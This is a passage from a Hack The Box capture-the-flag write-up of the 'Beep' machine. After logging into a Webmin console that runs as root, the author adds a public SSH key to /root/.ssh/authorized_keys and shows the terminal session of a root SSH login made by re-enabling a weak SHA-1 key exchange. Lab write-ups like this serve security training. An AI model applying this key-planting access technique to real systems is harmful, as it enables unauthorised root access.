 ![ImgPlaceholder](screenshots/webmin-logged-in.png)

```

We see the webmin server is running as root in the included commandline:

![ImgPlaceholder](screenshots/webmin-whoami.png)

Using the same commandline we can easily create and add a public ssh key to /root/.ssh/authorized_keys.

![ImgPlaceholder](screenshots/webmin-ssh-authkeys.png)

The only other problem was overiding the diffie-hellman key exchange restriction not allowing sha1 to be used.

user@kali:~/hackthebox/hackthebox/beep/exploit$ ssh -i ~/.ssh/id_rsa root@10.10.10.7
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
user@kali:~/hackthebox/hackthebox/beep/exploit$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -i ~/.ssh/id_rsa root@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
Enter passphrase for key '/home/user/.ssh/id_rsa': 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
```